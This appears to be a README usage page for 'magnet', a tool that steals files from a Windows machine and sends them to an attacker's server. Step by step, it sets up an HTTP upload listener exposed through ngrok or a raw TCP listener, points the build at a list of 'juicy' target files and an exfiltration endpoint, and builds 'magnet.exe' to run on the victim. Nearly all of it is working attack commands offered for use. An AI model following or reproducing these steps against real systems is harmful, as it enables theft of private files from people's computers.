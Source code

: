 # Example

Below is a complete example of `magnet` usage

## Send trough HTTP
### Pre-requisites
* [`gitar`](https://github.com/ariary/gitar) but you could use the HTTP server of your choice, as long as file upload is possible
* [`ngrok`](https://ngrok.com/)
* [`lobfuscator`](https://github.com/ariary/magnet/blob/main/README.md#build-lobfuscator)
* Clone `magnet` repository and go inside it

Our target run a windows device

### 1. Set up attacker listener

Using 
```shell
## Launch HTTP Upload server
gitar
## Expose the server using
ngrok http 9292 #copy ngrok endpoint
```

### 2. Set environment variables
```shell
export TARGET_OS=windows
export FILES=samples/windows_juicy_files.txt
export ENDPOINT=[NGROK_HTTPS_ENDPOINT]/[GITAR_RANDOM_PATH]/push
export KEY=thisismytestkey
export METHOD=http
```

### 3. Build malicious executable
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
#build magnet.exe
```

### 4. Watch the magic happen

Transfer the executable on windows machine, execute it and observe:
```cmd
.\magnet.exe
```

On gitar listener you should receive the files


## Send trough raw TCP

### 1. Set up attacker listener

If you are waiting 3 files:
```shell
./examples/listen_tcp.sh [PORT] 3
```
### 2. Set environment variables
```shell
...
export ENDPOINT=[IP:PORT]
...
export METHOD=tcp
```

### 3. Build and exec

Build:
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
```

And exec on target:
```cmd
.\magnet.exe
```

***Notes:*** the filename on attacker machine won't reflect the actual filename on target

